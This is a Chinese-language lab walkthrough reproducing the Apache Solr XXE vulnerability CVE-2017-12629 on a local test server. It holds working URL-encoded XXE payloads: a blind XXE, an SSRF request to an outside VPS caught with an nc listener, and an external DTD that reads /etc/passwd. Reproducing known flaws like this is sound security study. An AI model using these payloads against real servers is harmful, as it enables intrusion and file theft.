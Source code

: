 # Apache solr XXE漏洞(CVE-2017-12629)

## 1、漏洞复现

环境搭建好之后访问`192.168.232.131:5016`

![image-20231118142633642](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118142633642.png)

然后访问`http://192.168.232.131:5016/solr/admin/cores`查看有哪些core

![image-20231118142751474](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118142751474.png)

可以看到有个core是demo

构造payload

```
http://192.168.232.131:5016/solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2F10.20.251.86%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser&wt=xml&defType=xmlparser
```

![屏幕截图 2023-11-18 143117](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-18 143117.png)

造成Blind XXE

复现成功

## 2、利用XXE漏洞发送HTTP请求，在VPS服务器接收请求，或收到DNS记录。（SSRF利用）

我选择的用vps服务器接收请求

在服务器上监听端口（我的是5000端口）

```
nc -lvv 5000
```

构造下面的payload

```
http://192.168.232.131:5016/solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20%3F%3E%3C!DOCTYPE%20root%5B%3C!ENTITY%20%25%20ext%20SYSTEM%20%22http%3A%2F%2F47.115.212.50%3A5000%22%3E%25ext%3B%25ent%3B%5D%3E%3Cr%3E%26data%3B%3C%2Fr%3E&wt=xml&defType=xmlparser&wt=xml&defType=xmlparser
```

发送后可以看到成功接收请求

![image-20231118151138350](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118151138350.png)

## 3、利用XXE漏洞读取本地的 /etc/passwd文件。（文件读取利用）

利用Error Based XXE读取文件：

创建一个1.dtd文件

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

构造payload

```
<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://127.0.0.1/1.dtd">%ext;%ent;]><r>&data;</r>
```

**要对他进行url编码**（特殊字符都要编码，用burp或者在线url编码工具）

![image-20231118150440054](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118150440054.png)

成功读取文件